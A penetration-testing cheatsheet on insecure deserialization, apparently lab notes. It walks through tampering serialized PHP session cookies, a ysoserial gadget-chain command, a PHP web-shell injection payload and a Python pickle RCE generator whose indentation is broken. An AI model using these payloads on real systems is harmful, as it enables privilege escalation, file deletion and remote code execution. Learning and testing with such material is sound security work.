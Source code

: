 # Insecure deserialization

## Summary
* [Identifying insecure deserialization](#identifying-insecure-deserialization)
	* [PHP serialization format](#php-serialization-format)
	* [Java serialization format](#java-serialization-format)
* [Exploiting insecure deserialization](#exploiting-insecure-deserialization)
	* [Modifying serialized objects](#modifying-serialized-objects)
	* [Modifying serialized data types](#modifying-serialized-data-types)
	* [Exploiting application functionality through insecure deserialization](#exploiting-application-functionality-through-insecure-deserialization)
	* [Arbitrary object injection in PHP & magic methods](#arbitrary-object-injection-in-php--magic-methods)
	* [Exploiting gadeget chains Java deserialization](#exploiting-gadget-chains-java-deserialization-with-apache-commons-library)
	* [Exploiting object injection in PHP & magic methods](#exploiting-object-injection-in-php--magic-methods)
	* [Exploiting pickle deserialization in Python](#exploiting-pickle-deserialization-in-python)


Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.

Deserialization is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized.

Insecure deserialization is when user-controllable data is deserialized by a website.

## Identifying insecure deserialization
### PHP serialization format
```
> $user->name = "carlos";
> $user->isLoggedIn = true;
	# when serialized
	# O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
	# O:4:"User" - An object with the 4-character class name "User"
	# 2 - the object has 2 attributes
	# s:4:"name" - The key of the first attribute is the 4-character string "name"
	# s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
	# s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
	# b:1 - The value of the second attribute is the boolean value true
> PHP serialization methods are serialize() and unserialize()
```
### Java serialization format
```
> serialized objects always begin with the same bytes
	# "ac ed" in hexadecimal
	# "rO0" in base64
> take note of readObject() as it is used to read and deserialize data
```

## Exploiting insecure deserialization
### Modifying serialized objects
```
> assume an application is vulnerable to privilege escalation through insecure deserialization
> log in into the application with your credentials
> refresh the home page and send the request to the Burp Proxy
> in Burp Proxy, notice that the session cookie appears to be URL and Base64 encoded
> decode the session cookie and notice that it is a serialized PHP object
	# O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
> the admin attribute contains b:0 indicating that the user wiener is not an admin
> change the admin attribute boolean value to 1 and re-encode it to base64 then send the request
	# O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
> notice that the application now contains a link to the admin panel at /admin indicating that the user wiener now has admin privileges
```
### Modifying serialized data types
```
> assume an application is vulnerable to privilege escalation through insecure deserialization
> log in into the application with your credentials
> refresh the home page and send the request to the Burp Proxy
> in Burp Proxy, notice that the session cookie appears to be URL and Base64 encoded
> decode the session cookie and notice that it is a serialized PHP object
	# O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:5:fdfsd;}
> the access token is what determines if a user is an administrator
> update the length of the username attribute to 13 and change the username to administrator
> change the access token to the integer 0 and as this is no longer a string, the double-quotes surrounding the value should also be removed
	# O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
> re-encode the session cookie to base64 then send the request
> notice that the application now contains a link to the admin panel at /admin indicating that the user wiener now has admin privileges
```
### Exploiting application functionality through insecure deserialization
```
> assume an application is vulnerable to delete functionality through insecure deserialization
> log in into the application with your credentials
> click the option to delete your account in /my-account and send the POST request to Burp Proxy
> in Burp Proxy, notice that the session cookie appears to be URL and Base64 encoded
> decode the session cookie and notice that it is a serialized PHP object
	# O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"bugae3pe8eect29ibo4u3ajrmr8nsxwq";s:11:"avatar_link";s:18:"users/gregg/avatar";}
> the avatar_link attribute contains the file path to your avatar
> change the file path attributes pointing to /home/carlos/morale.txt and update the length indicator then reencode it to Base64 and send the request
	# O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"bugae3pe8eect29ibo4u3ajrmr8nsxwq";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
> observe that your account will be deleted along with carlos's morale.txt file
```
### Arbitrary object injection in PHP & magic methods
```
> log in into the application with your credentials and send the request to BurpSuite
> obtain the source code and append (~) to the filename to read its contents
> in the source code, notice the CustomTemplate class contains the __destruct() magic method which will invoke unlink() method on the lock_file_path which will then delete the file on this path
> in Burp Decoder, create a PHP serialized data to create a CustomTemplate object with the lock_file_path attribute set to /home/carlos/morale.txt
	# O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
> encode it to Base64 and and send the request containing the serialized session cookie
> the __destruct() magic method is automatically invoked and will delete Carlos's file
```
### Exploiting gadget chains java deserialization with Apache Commons library
```
> log in into the application with your credentials and send the request to Burp Proxy
> open the ysoserial tool and execute the following command
	# java -jar /path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
> this will generate a Base64-encoded serialized object containing the payload
> URL-encode the generated payload and send the request containing the serialized payload in the cookie header
> observe that the payload executed successfully
```
### Exploiting object injection in PHP & magic methods
```
<?php
class FormSubmit {
public $form_file = 'message.txt';
public $message = '';
public function SaveMessage() {
$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];
	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
}
public function __destruct() {
file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';
}
}
// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
$application = new FormSubmit;
$application -> SaveMessage();
?>
```
The PHP code above saves user-supplied data ($message) into a file 'message.txt' ($form_file). Notice at the bottom of the PHP code, there is an unserialize function for $messageDebug which get a user-supplied data from a parameter called 'debug'

We can exploit this by supplying a serialize data into the url using the 'debug' parameter so it can be unserialized and exploited
```
http://example.com?debug=O:10:"FormSubmit":2:{s:9:"form_file";s:8:"test.php";s:7:"message";s:60:"<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>";}
```
The serialized data above gives a new file name for the $form_file instead of using message.txt and we also supply a php code that can gives us remote code execution. Submit the serialized data and navigate to the 'test.php' and test the remote code execution 
		
### Exploiting pickle deserialization in python
Find an injection point and try to submit random value, intercept the request and see if there is any base64 encoded data is being passed.

Base64 in python sometimes could be a hint to us that pickle module is being used in the application

To exploit this, we can supply a malicious pickle serialized data into the injection point and once the data will get deserialize, the malicious payload will be executed
```
	>> import pickle
	   import base64
	   import os

	   class RCE:
	   		def __reduce__(self):
	   		cmd = ('whoami')
	   		return os.system, (cmd,)

	   	if __name__ == '__main__':
	   		pickled = pickle.dumps(RCE())
	   		print(base64.urlsafe_b64encode(pickled))
```
The code above will generate us a malicious serialized data and gaining us a remote code execution
